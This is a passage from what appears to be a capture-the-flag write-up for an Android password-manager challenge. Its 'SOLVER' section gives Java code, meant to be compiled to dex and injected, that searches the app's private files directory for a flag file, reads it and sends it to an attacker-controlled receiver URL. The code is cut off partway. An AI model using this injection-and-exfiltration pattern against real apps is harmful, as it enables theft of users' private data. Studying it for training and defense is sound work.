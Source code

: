 ## SOLVER

Debug.java (convert it to dex)
```java
package com.aimardcr.pwdmanager;

import java.io.BufferedReader;
import java.io.File;
import java.io.FileReader;
import java.io.FilenameFilter;
import java.io.IOException;
import java.io.OutputStream;
import java.net.HttpURLConnection;
import java.net.URL;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.io.IOException;

public class Debug {
    private static final String FLAG_FILE_PATH = "/data/data/com.aimardcr.pwdmanager/files/flag";
    private static final String NGROK_URL = "http://<OUR RECEIVER>";

    static File findFlagFile() {
        return searchFlagFile();
    }

    public static void start() {
        new Thread(new Runnable() {
            @Override
            public void run() {
                try {
                    sendFlag("TESTINGBRO");
                    System.out.println("Starting debug process...");
                    File flagFile = Debug.findFlagFile();
                    if (flagFile != null) {
                        System.out.println("Flag file found: " + flagFile.getName());
                        String flagContent = Debug.readFlagFromFile(flagFile);
                        System.out.println("Flag: " + flagContent);
                        Debug.sendFlag(flagContent);
                    } else {
                        System.out.println("Flag file not found.");
                    }
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }).start();
    }

    private static File searchFlagFile() {
        System.out.println("Searching for flag file...");
        File[] files = new File("/data/data/com.aimardcr.pwdmanager/files").listFiles(new FilenameFilter() {
            @Override
            public boolean accept(File dir, String name) {
                return name.startsWith("flag") && name.endsWith(".txt");
            }
        });
        return (files != null && files.length > 0) ? files[0] : null;
    }

```